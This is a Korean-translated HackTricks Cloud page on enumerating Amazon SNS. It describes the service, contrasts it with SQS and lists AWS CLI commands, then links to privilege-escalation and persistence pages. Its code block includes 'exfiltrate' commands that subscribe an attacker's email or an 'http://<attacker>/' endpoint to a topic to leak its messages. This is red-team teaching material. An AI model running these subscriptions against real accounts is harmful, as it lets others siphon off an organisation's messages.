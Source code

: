 # AWS - SNS Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS)는 **완전 관리형 메시징 서비스**로 설명됩니다. 이 서비스는 **애플리케이션 간** (A2A) 및 **애플리케이션 대 개인** (A2P) 통신 유형을 모두 지원합니다.

A2A 통신을 위한 주요 기능에는 **게시/구독 (pub/sub) 메커니즘**이 포함됩니다. 이러한 메커니즘은 **주제**를 도입하여 높은 처리량의 **푸시 기반 다대다 메시징**을 가능하게 합니다. 이 기능은 분산 시스템, 마이크로서비스 및 이벤트 기반 서버리스 아키텍처와 관련된 시나리오에서 매우 유리합니다. 이러한 주제를 활용함으로써 게시자 시스템은 **광범위한 구독자 시스템**에 메시지를 효율적으로 배포하여 팬아웃 메시징 패턴을 촉진할 수 있습니다.

### **SQS와의 차이점**

**SQS**는 포인트 투 포인트 통신을 허용하는 **큐 기반** 서비스로, 메시지가 **단일 소비자**에 의해 처리되도록 보장합니다. 이 서비스는 **최소 한 번 전달**을 제공하며, 표준 및 FIFO 큐를 지원하고, 재시도 및 지연 처리를 위한 메시지 보존을 허용합니다.\
반면에 **SNS**는 **게시/구독 기반 서비스**로, 메시지를 **여러 구독자**에게 동시에 방송하여 **일대다** 통신을 가능하게 합니다. 이 서비스는 **이메일, SMS, Lambda 함수 및 HTTP/HTTPS**와 같은 다양한 구독 엔드포인트를 지원하며, 목표 메시지 전달을 위한 필터링 메커니즘을 제공합니다.\
두 서비스 모두 분산 시스템의 구성 요소 간의 분리를 가능하게 하지만, SQS는 큐 기반 통신에 중점을 두고, SNS는 이벤트 기반 팬아웃 통신 패턴을 강조합니다.

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
**주제의 유형이 FIFO인 경우**, **SQS** 프로토콜을 사용하는 구독자만 사용할 수 있습니다 (HTTP 또는 HTTPS는 사용할 수 없습니다).

또한, `--topic-arn`에 지역이 포함되어 있더라도 **`--region`**에서 올바른 지역을 지정해야 하며, 그렇지 않으면 접근 권한이 없다는 오류가 발생하지만 문제는 지역입니다.
{% endhint %}

#### 인증되지 않은 접근

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### 권한 상승

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### 포스트 익스플로잇

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### 지속성

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## 참고자료

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
